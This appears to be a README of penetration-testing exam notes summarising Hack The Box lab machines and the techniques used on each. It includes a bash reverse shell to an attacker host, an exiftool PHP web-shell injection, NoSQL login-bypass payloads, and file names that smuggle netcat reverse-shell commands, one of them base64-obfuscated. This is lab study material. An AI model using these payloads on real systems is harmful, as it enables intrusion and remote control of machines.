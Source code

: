 ### Machines

| Machine | Enumeration | Privilege Escalation |
| ------------- | ------------- | ------------- |
| Admirer | Adminer MySQL(local) | Hijacking Python Library | 
| Armageddon | Drupal (2018-7600) | binary snap |
| Backdoor | wordpress LFI proc gdbserver | screen |
| Blocky | dirb javadecompilers wordpress | sudo list |
| Blunder | feroxbuster Extensions [txt] bludit | sudo versions before 1.8.28 |
| Brainfuck | wordpress plugin smtp pop3 | Cryptography |
| Cronos | subdomain wfuzz| crontab |
| Doctor | [ssti-payloads](https://github.com/payloadbox/ssti-payloads) | Splunk |
| Forge | SSRF subdomain ftp | sudo list Python Debugger pdb |
| Forlic | playsms Ook! | BOF |
| Haircut | dirb medium.txt writeable uploads folder | Unknown SUID binary screen |
| Horizontall | wfuzz top1million-110000 strapi | active port 8000 ```local CVE``` ssh tunnel |
| Irked | irc-unrealircd-backdoor | LinPEAS Unknown SUID binary |
| *Jarvis | SQLi phpmyadmin 4.8 RCE | python command injection & systemctl binary |
| Knife | firefox wappalyzer [PHP 8.1.0](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py)| upgrade shell & sudo list |
| Lame | distccd | nmap |
| *Luanne | nmap Supervisor & robots.txt weather | BSD doas & netpgp backup file |
| Magic | [SQLi](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) bypassing login & <br> File upload bypass [PHP getimagesize()](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) | mysqldump & Unknown SUID binary sysinfo |
| *Mango |  certificate subdomains & <br> [enumerate](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration) credentials of nosql-injection <br> (*Not sure if you can use this script in the exam), reuse | jjs, write root SSH public key | 
| Mirai | nmap, pi.hole, ssh | sudo list, mount, strings |
| Networked | File upload bypass [PHP getimagesize()](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass), <br> php command injection | *sudo list |
| Nibbles | page source, directory | sudo list |
| *NineVeh | brute force attack http & https, phpLiteAdmin | crontab, chkrootkit |
| OpenAdmin | OpenNetAdmin ||

(*):review before the exam

### Additional command notes

Used in ```Knife``` for upgrade shell

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'
```

Used in ```Luanne``` 

authenticate

```
curl -s http://127.0.0.1:3001/<folder>/ -u <user>:<password>
```

Find the open port

```
netstat -punta || ss -nltpu || netstat -anv
```

Used in ```Magic``` 

image file upload bypass

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
```

dump mysql database data without using mysql client tool

```
mysqldump -u root -p database_name > database_name.sql
```

Used in ```Mango```

[nosql-injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md): basic authentication bypass

```
# change post data
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true
```

Used in ```Mirai```

```
# check partition
strings /dev/sdb
```

Used in ```Networked```

command injection

```
# method1: vaild file name
echo "" > "; nc -c bash 192.168.0.1 4444 ;"
# method2: use base64 encoding format to avoid file name checking
echo nc -e /bin/bash 192.168.0.1 4444 | base64 -w0
echo "" > "a; echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xIDQ0NDQK | base64 -d | sh; b"
```

[base64](https://linux.die.net/man/1/base64)

```
-w, --wrap=COLS
    Wrap encoded lines after COLS character (default 76). Use 0 to disable line wrapping.
-d, --decode
    Decode data.
-i, --ignore-garbage
    When decoding, ignore non-alphabet characters.
--help
    display this help and exit
--version
    output version information and exit
```

Used in ```Nineveh```

```
# check information in image file
strings -n 20 <image file> 
# extract known file types 
binwalk <image file>
binwalk -e <image file>
```